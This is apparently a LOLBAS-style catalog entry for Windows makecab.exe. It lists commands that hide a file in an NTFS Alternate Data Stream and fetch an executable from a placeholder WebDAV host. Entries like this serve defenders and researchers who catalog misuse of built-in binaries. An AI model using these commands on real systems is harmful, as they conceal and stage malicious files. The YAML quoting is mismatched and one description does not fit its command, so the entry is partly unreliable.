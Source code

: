 ```yaml
---
Name: Makecab.exe
Description: Package, Add ADS, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: 'Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.'
  - Command: "makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: 'Compresses the target file and stores it in the target file.'
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab"
    Description: 'Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.'
Full Path:
  - c:\windows\system32\makecab.exe
  - c:\windows\sysWOW64\makecab.exe
Code Sample: []
Detection: []
Resources:
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Notes: Thanks to Oddvar Moe - @oddvarmoe
---
```

